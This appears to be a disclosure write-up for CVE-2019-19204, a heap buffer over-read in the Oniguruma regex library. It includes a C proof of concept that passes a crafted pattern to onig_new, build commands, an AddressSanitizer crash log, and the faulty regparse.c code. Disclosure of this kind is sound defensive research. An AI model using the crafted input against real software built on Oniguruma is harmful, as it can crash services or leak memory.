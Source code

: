 # CVE-2019-19204
An issue was discovered in Oniguruma 6.x before 6.9.4_rc2. In the function fetch_interval_quantifier (formerly known as fetch_range_quantifier) in regparse.c, PFETCH is called without checking PEND. This leads to a heap-based buffer over-read.
Researcher: **ManhND of The Tarantula Team, VinCSS (a member of Vingroup)**

## What is Oniguruma
Oniguruma by K. Kosako is a BSD licensed regular expression library that supports a variety of character encodings. The Ruby programming language, in version 1.9, as well as PHP's multi-byte string module (since PHP5), use Oniguruma as their regular expression engine. It is also used in products such as Atom, GyazMail Take Command Console, Tera Term, TextMate, Sublime Text and SubEthaEdit.

## Proof of Concept
Source code:
```C
#include <stdlib.h>
#include <string.h>
#include "oniguruma.h"

int main(int argc, char* argv[])
{
  int r;
  regex_t* reg;
  OnigErrorInfo einfo;

  char *pattern = (char*)malloc(6);
  memcpy(pattern, "_\\{21\\", 6);
  char *pattern_end = pattern + 6;
  
  

  OnigEncodingType *enc = ONIG_ENCODING_ASCII;


  onig_initialize(&enc, 1);
  r = onig_new(&reg, (unsigned char *)pattern, (unsigned char *)pattern_end,
               ONIG_OPTION_NONE, enc, ONIG_SYNTAX_GREP, &einfo);
  if (r == ONIG_NORMAL) {
    onig_free(reg);
  }

  onig_end();
  return 0;
}
```
Compilation of Oniguruma and the PoC:
```
./configure CC=gcc CFLAGS="-m32 -O0 -ggdb3 -fsanitize=address" LDFLAGS="-m32 -O0 -ggdb3 -fsanitize=address" && make -j4
gcc -fsanitize=address -O0 -I./oniguruma-gcc-asan/src -ggdb3 poc-fetch_interval_quantifier-2-PFETCH.c ./oniguruma-gcc-asan/src/.libs/libonig.a -o PoC
```
Crash log:
```
root@manh-ubuntu16:~/fuzz/fuzz_oniguruma# ./PoC
=================================================================
==6418==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x60200000eff6 at pc 0x00000044cb35 bp 0x7ffde176e0e0 sp 0x7ffde176e0d0
READ of size 1 at 0x60200000eff6 thread T0
    #0 0x44cb34 in onigenc_single_byte_mbc_to_code /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regenc.c:704
    #1 0x4683a0 in fetch_interval_quantifier /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regparse.c:4182
    #2 0x46e79a in fetch_token /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regparse.c:5009
    #3 0x481e9f in parse_exp /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regparse.c:7974
    #4 0x483de7 in parse_branch /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regparse.c:8303
    #5 0x48431b in parse_alts /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regparse.c:8354
    #6 0x484808 in parse_regexp /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regparse.c:8413
    #7 0x484db1 in onig_parse_tree /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regparse.c:8468
    #8 0x423c6b in onig_compile /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regcomp.c:6694
    #9 0x424e53 in onig_new /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regcomp.c:6964
    #10 0x401265 in main /root/fuzz/fuzz_oniguruma/poc-fetch_interval_quantifier-2-PFETCH.c:27
    #11 0x7f18b06ad82f in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x2082f)
    #12 0x401048 in _start (/root/fuzz/fuzz_oniguruma/PoC+0x401048)

0x60200000eff6 is located 0 bytes to the right of 6-byte region [0x60200000eff0,0x60200000eff6)
allocated by thread T0 here:
    #0 0x7f18b0aef602 in malloc (/usr/lib/x86_64-linux-gnu/libasan.so.2+0x98602)
    #1 0x4011e2 in main /root/fuzz/fuzz_oniguruma/poc-fetch_interval_quantifier-2-PFETCH.c:17
    #2 0x7f18b06ad82f in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x2082f)

SUMMARY: AddressSanitizer: heap-buffer-overflow /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regenc.c:704 onigenc_single_byte_mbc_to_code
Shadow bytes around the buggy address:
  0x0c047fff9da0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff9db0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff9dc0: fa fa 04 fa fa fa 00 00 fa fa 00 04 fa fa 00 00
  0x0c047fff9dd0: fa fa 06 fa fa fa 00 00 fa fa 06 fa fa fa 00 00
  0x0c047fff9de0: fa fa 04 fa fa fa 00 00 fa fa 00 01 fa fa 00 00
=>0x0c047fff9df0: fa fa 00 00 fa fa 05 fa fa fa 00 00 fa fa[06]fa
  0x0c047fff9e00: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff9e10: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff9e20: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff9e30: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff9e40: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Heap right redzone:      fb
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack partial redzone:   f4
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
==6418==ABORTING
```
## Root cause
Referenced source code version: **ca7ddbd858dcdc8322d619cf41ab125a2603a0d4**
At regparse.c:4182 in fetch_interval_quantifier, PFETCH is called without checking PEND.
```C
  if (IS_SYNTAX_OP(env->syntax, ONIG_SYN_OP_ESC_BRACE_INTERVAL)) {
    if (c != MC_ESC(env->syntax)) goto invalid;
    PFETCH(c);
  }
```
This leads to heap-buffer-overflow.
